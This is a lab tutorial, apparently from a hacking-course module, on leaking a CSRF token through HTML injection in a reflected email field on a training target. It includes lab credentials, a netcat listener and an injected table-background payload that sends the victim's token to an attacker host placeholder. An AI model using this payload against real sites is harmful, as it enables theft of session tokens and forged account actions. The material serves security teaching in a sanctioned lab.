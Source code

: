 # Cross-Site Request Forgery (POST-based)

The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. Let us attack such an application and try to find a way to leak the CSRF token so that we can mount a CSRF attack.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

* Email: heavycat106
* Password: rocknrol

This is an account that we created to look at the application's functionality.

After authenticating as a user, you'll notice that you can delete your account. Let us see how one could steal the user's CSRF-Token by exploiting an HTML Injection/XSS Vulnerability.

Click on the "Delete" button. You will get redirected to `/app/delete/<your-email>`

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Notice that the email is reflected on the page. Let us try inputting some HTML into the _email_ value, such as:

```html
<h1>h1<u>underline<%2fu><%2fh1>
```

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you inspect the source (`Ctrl+U`), you will notice that our injection happens before a `single quote`. We can abuse this to leak the CSRF-Token.

<figure><img src="../../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Let us first instruct Netcat to listen on port 8000, as follows.

```shell-session
$ nc -nlvp 8000
listening on [any] 8000 ...
```

Now we can get the CSRF token via sending the below payload to our victim.

```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

While still logged in as Julie Rogers, open a new tab and visit `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token.

<figure><img src="../../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Since the attack was successful against our test account, we can do the same against any account of our choosing.

We remind you that this attack does not require the attacker to reside in the local network. HTML Injection is used to leak the victim's CSRF token remotely!

Next, we will cover how you can chain XSS and CSRF to attack a user's session.
